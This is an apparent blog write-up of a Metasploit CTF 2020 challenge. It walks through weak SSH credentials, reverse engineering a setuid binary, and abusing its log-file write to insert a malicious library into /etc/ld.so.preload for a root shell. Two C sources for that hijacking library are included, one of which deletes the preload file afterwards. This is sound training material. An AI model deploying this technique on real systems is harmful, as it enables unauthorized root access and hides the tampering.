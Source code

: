 ```yaml
---
layout: single
title: "Metasploit CTF : 'Ace of Clubs'"
---
```


During the weekend of the 5th December I had a little time to participate in the Metasploit CTF 2020, one particular challenge I found quite interesting, this was mainly because the route I decided to take was probably a little different and a lot more involved but I wanted to test myself! So let's crack on...

## Challenge: Ace of Clubs

The challenge begins with an SSH server listening on port 9009, after connecting you're presented with a banner requesting you to login as the user admin but doesn't mention the password, a few simple guesses and I login with the password 'password' and I obtain a shell with user or low privileges.

![alt text](https://ben0.github.io/assets/images//9009_sshlogin.PNG "SSH port 9009")

After light enumeration I find the flag `/etc/ace_of_spades.jpg` only readable as root, a binary `/opt/vpn_connect` with set user ID on execution, and the owner root - this must be the path to flag, if there any vulnerabilities it may be an easy privilege escalation.

First let us see if the binary has any dependencies, using ldd will help identify what shared objects are required by the binary, and this particular binary requires the library `/usr/lib/libvpnauthcustom.so` to run.

![alt text](https://ben0.github.io/assets/images//9009_ldd.PNG "Library dependencies")

Using NM to list the symbol table in the binary, grepping for 'T' or 't' to filter on symbols in the data section. You could say the symbols are mapping between the functions and the instructions within the binary that may be used during execution.

![alt text](https://ben0.github.io/assets/images//9009_nm.PNG "Binary symbols")

Running the binary we're prompted with usage instructions, the binary requires three parameters, username, password, and a log path. Let see if we can get the username & password using GDB, I use pwndbg which is pretty great for any sort of reverse engineering, I highly recommened it. You can set the binary arguments, and set a breakpoint on the `authenticate` function to stop execution and return control back:

![alt text](https://ben0.github.io/assets/images//9009_gdbstart.PNG "GDB")

Now I can step a few instructions to the string compare function where our user supplied input is being compared to the string `username` - this must be the username! Repeating this process I also get the password.

![alt text](https://ben0.github.io/assets/images//9009_gdbusername.PNG "GDB")
![alt text](https://ben0.github.io/assets/images//9009_gdbpassword.PNG "GDB")

Excellent, now we know the username and password surely we'll get the flag, let's run the binary with the correct username and password.... Fail, nothing happens. To save time let us see what we get with strace, a great utility to trace system call activity.

![alt text](https://ben0.github.io/assets/images//9009_strace.PNG "System trace")

The notable system calls here are `umask` which sets the file creation mask, then `openat` to get a file descriptor with the flags 'O_WRONLY | O_CREAT', write only or create if the file doesn't exist, then we see a few `write` calls with logging information followed by a `close` on the file descriptor.

As the binary is running as root, it's effectively an arbitrary write, the contents include the username and password which we control, great! Here I tried to write to `/etc/passwd` or `/etc/shadow` but I couldn't get the format correct, this is where I decided to get a root shell instead :-)

### Privilege escalation

The binary uses a shared library to provide the `authenticate` function which is dynamically loaded at run-time. The shared library is located in `/usr/lib/libvpnauthcustom.so` and we only have read permissions, how can this be abused?

Linux provides functionality for preloading libraries through `LD_PRELOAD` environment variable or `/etc/ld.so.preload`, preloading allows a user to supply a shared library which is loaded before other libraries. If I create and compile a library with a function named `authenticate` can I hijack the execution of the binary?

Here is rough (don't judge me!) sourcecode with a single function `authenticate` when called by the binary will set the UID to 0 and call the system function with argument `/bin/bash` giving us a root shell!  

```
cat > /tmp/exploit.c << "EOF"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    uid_t uid = getuid();
    uid_t euid = geteuid();
    printf("Uid: %i, Euid: %i\n",uid,euid);

    setuid(0);
    setgid(0);
    
    uid_t puid = getuid();
    uid_t peuid = geteuid();
    printf("Uid: %i, Euid: %i\n",puid,peuid);

    system("/bin/bash");
    return 0;
}
EOF
```
Here I compile the source code into a shared object:

![alt text](https://ben0.github.io/assets/images//9009_payload_compile.PNG "Compiling exploit.c")

Then I can abuse the log functionalilty to write the string '/tmp/preload.so' to the file `/etc/ld.so.preload`:

![alt text](https://ben0.github.io/assets/images//9009_write_ld_so_payload1.PNG "Abusing the -l switch")

If you look at the last image, you can see the errors produced by `ld.so` which is responsible for finding and loading shared libraries. Any shared libraries can be specificed seperated by white spaces so it's a fairly relaxed syntax, there are plenty of errors where `ld.so` can't find the library specificed but it still finds our malicious shared library and is preloaded when a binary in run. 

I've created and compiled a shared object library, abused the function `log_res` in the binary 'vpn_connect' to add the shared library to `ld.so.preload`, then execute the `vpn_connect` binary again, the malicious shared library is loaded, which calls the `authenticate` function in our library rather the intended library, this then uses the system call to replace the current process with `/bin/bash`!

![alt text](https://ben0.github.io/assets/images//9009_exploit1.PNG "Exploit!")
![alt text](https://ben0.github.io/assets/images//9009_exploit2.PNG "Exploit!")

### Next steps

The shared object isn't perfect, but could be improve by removing some of the printf statements and deleting `/etc/ld.so.preload` file  to stop those nagging error messages:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    setuid(0);
    setgid(0);
    unlink("/etc/ld.so.preload");
    system("/bin/bash");
    return 0;
}
```
